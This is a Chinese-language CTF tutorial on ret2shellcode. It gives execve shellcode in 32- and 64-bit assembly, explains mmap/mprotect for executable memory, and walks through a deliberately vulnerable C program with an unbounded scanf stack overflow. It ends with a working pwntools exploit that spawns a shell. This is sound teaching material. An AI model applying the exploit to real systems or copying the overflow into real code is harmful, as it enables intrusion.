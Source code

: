 ```yaml
---
title: "ret2shellcode"
description: ""
lead: ""
date: 2023-03-30T20:20:50+08:00
lastmod: 2023-03-30T20:20:50+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "ret2shellcode-0eaa929129ddb1f35b555655c3b77a72"
weight: 3
toc: true
---
```


## 0x01 介绍

ret2shellcode用到的知识也是系统调用，只不过和ret2syscall的区别在于后者是利用程序里已有的代码片段，而前者是需要自己写系统调用代码编译后注入到内存里，然后跳转到我们写入的地方来执行我们写入的代码，我们称这种代码为shellcode。这种题型的难点就在于shellcode编写，其他的和前面区别不大。最简单的shellcode即execve系统调用的写法为

1. 获取 `/bin/sh` 字符串地址
2. 将字符串地址赋值给第一个参数寄存器
3. 将第二三参数寄存器置零
4. 将系统调用号存入ax寄存器
5. 执行内陷指令

32位的汇编代码为

```c
push 0x0068732f
push 0x6e69622f    # "/bin/sh"字符串按照小端序压入到栈中
mov ebx, esp    # 当前栈顶即esp指向的是"/bin/sh"字符串，将esp的值即字符串指针赋值给ebx
xor ecx, ecx    # ecx置零
xor edx, edx    # edx置零
mov eax, 11    # 将execve系统调用号给eax
int 0x80    # 执行系统调用

```

64位的汇编代码为

```c
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 59
syscall
```

值得注意的是64位不能直接将8个字节直接push进栈里，必须借助寄存器才可以将 `/bin/sh` 字符串压入栈中

将汇编编译为机器码后注入到内存里即可。在此之前需要保存注入shellcode的地方有可执行权限，最常见的情况就是没有加 `NX` 保护，然后可以注入到堆栈、data段bss段。还有的情况就是使用mmap申请了一个有可执行权限的内存，例如

```c
char *p = mmap(0x10000, 0x1000, 7, 0x22, -1, 0)
```

第一个参数是申请内存开始的地址，第二个参数是申请的内存大小，需要为内存分页的倍数（4KB的倍数），第三个参数是内存权限，可读为1，可写为2，可执行为4，通过或运算可以知道可读可写可执行的值为7，0x22是 `MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED` ，代表这是一个私有的映射（别的进程不可访问），还是一个匿名映射（不和任何文件相关联），而且映射区域映射到指定的起始地址，第四个参数是文件描述符，如果是匿名映射，填-1即可，最后一个参数是指定要映射文件的偏移量，可以填0不用管

这样我们在0x10000地址处就有了一个可以写入执行shellcode的内存了

还有一种情况是通过mprotect更改内存区域的权限，例如

```c
mprotect(0x10000, 0x1000, 7)
```

第一个参数是你要修改内存区域的地址，第二个参数是区域的长度，也需要是内存分页的倍数，最后一个参数是权限，和mmap的权限一样。

值得注意的是mmap和mprotect都是有系统调用存在的

我们以最简单的没加 `NX` 保护的情况来讲

```c
#include<stdio.h>
char buf[0x50];

void run() {
    char name[0x10];
    printf("name: ");
    scanf("%s", name);
    printf("content: ");
    scanf("%s", buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2shellcode.c -o ret2shellcode -m32 -no-pie -fno-pic -fno-stack-protector -z execstack

```

这里第一次输入存在栈溢出，而第二次输入是输入到buf中，buf是未初始化数组，保存在了bss段中，由于没有加PIE保护，所以buf地址是已知的，那么我们就可以将shellcode注入到buf中，然后覆盖函数返回地址为buf地址，即可通过ret跳转执行我们的shellcode

![6cd8d6f25ac6a5d65b1c8586e1d8cf23](images/6cd8d6f25ac6a5d65b1c8586e1d8cf23.png)  

这样我们就可以写出最终的Exploit

```c
from pwn import*
context.log_level = 'debug'    # 设置为调试模式
context.arch = 'i386'    # 设置系统架构，要不然编译汇编代码会出错
o = process("./ret2shellcode")
# 第一次输入，栈溢出覆盖函数返回地址为buf地址
payload = b'a'*28 + p32(0x804a040)
o.sendline(payload)

# execve("/bin/sh", 0, 0)
shellcode = '''
push 0x0068732f
push 0x6e69622f
push esp
pop ebx
xor ecx, ecx
xor edx, edx
mov eax, 59
xor eax, 48    # 由于11是scanf的截断字符，所以通过先将eax赋值为59，再将eax和48异或eax即可得到11 
int 0x80
'''
payload = asm(shellcode)    # 编译汇编代码
o.sendline(payload)    # 将编译好的机器码写入到buf中

o.interactive()

```

![ef435571032bf634b5d9a6dafac27beb](images/ef435571032bf634b5d9a6dafac27beb.png)  

建议调试看看具体过程
